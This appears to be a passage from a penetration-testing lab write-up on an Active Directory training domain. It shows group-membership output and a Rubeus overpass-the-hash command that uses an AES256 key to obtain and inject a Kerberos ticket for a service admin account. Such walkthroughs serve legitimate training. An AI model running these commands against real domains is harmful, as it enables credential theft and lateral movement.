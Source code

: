 `whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : N0V3GD6B
[*] Domain          : LY3C5P4Q
[*] Password        : YPIV5X18
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 6912
[+] LUID            : 0x6d7248

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 7172680
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

```